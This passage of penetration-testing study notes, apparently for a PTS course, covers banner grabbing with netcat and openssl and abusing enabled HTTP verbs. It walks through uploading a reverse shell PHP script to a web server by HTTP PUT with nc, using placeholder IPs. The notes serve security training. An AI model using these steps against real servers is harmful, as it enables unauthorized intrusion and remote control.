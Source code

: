 * note, you would need to be hosting the corresponding get.php file on your own web server for that to work

#### **Banner Grabbing**

banner grabbing is the act of requesting the header information from a web application via an HTTP request to further enumerate what actions you can perform on the server. 

**netcat**

```javascript
nc -vv x.x.x.x 80
HEAD / HTTP/1.1
```

```javascript
nc -vv x.x.x.x 80
OPTIONS / HTTP/1.1
```

* make sure to hit \[return/enter\] twice after the HTTP verb line

**openssl**

this is used for the same purpose as netcat but for https commuincations that netcat does not support

```javascript
openssl s_client -connect x.x.x.x
HEAD / HTTP/1.1
```

```javascript
openssl s_client -connect x.x.x.x
OPTIONS / HTTP/1.1
```

**abusing HTTP verbs**

if the wrong http verbs are enabled for anyone by default, you can get away with a lot of things on a server- like uploading a reverse shell to the website. A trick for doing this is: 

* find reverse shell script from internet and adjust the IP and port

```javascript
wc rev-shell.php
> [#] rev-shell.php

nc -vv x.x.x.x 80
PUT /rev-shell.php
Content-type: text/html
Content-length: [#]
```

* where \[\#\] is the length that is output from the wc command initially

### System Attacks

there is a series of different styles of attacks you will need to know well on the system level. Being able to navigate metasploit well will absolutely serve you for the better so I recommend re-watching the meterpreter and metasploit videos from the PTS course. Additionally, I would also be comfortable with the idea of bruteforce attacks. 
